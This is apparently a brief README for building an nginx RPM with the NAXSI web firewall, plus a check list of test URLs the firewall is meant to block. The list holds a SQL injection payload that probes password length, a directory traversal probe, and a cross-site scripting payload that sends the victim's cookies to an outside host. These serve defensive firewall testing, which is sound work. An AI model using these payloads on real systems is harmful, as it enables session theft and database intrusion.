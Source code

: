 # nginx-naxsi-rpmbuild

To create nginx-naxsi rpm using below command.

```
$ rpmbuild -ba rpmbuild/SPECS/nginx-naxsi.spec
```

### for check

```
【SQL Injections】NG
https://127.0.0.1/?para=admin' and (Select count(*) from data where uname='wucm' and len(upass)<10)>0 and 'a'='a


【Cross Site Scripting】NG
https://127.0.0.1/?para=<script>window.open('http://10.65.20.196:8080/cookie.asp?msg='+document.cookie)</script>


【Directory traversal】NG
https://127.0.0.1/?para=..
```

